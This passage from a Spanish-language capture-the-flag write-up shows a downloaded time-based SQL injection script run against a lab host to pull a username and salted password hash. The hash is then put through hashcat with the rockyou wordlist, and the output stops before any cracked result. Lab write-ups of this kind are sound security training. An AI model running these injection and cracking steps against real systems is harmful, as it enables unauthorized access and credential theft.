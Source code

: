 Vamos a descargarnos el script para ver que como se usa

Antes de usar el script recomiendo instalar esto

```shell
python2 -m pip install termcolor
```

El script nos pide una URL 

```shell
❯ python2 sqli.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

```shell
python2 sqli.py -u http://10.10.207.175/simple
```

Pues bueno basicamente el script te da el `salt for password` `username` `email` `Password` pero ejecutando varias veces el script notaba que habia fallos y no me daba la informacion completa asi que hablando con compañeros ya que lo unico que me faltaba era la Password a algunos de ellos si les funciono XD

`username:mitch`

```shell
❯ hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-1035G1 CPU @ 1.00GHz, 2857/2921 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 51

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Iterated
* Prepended-Salt
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
```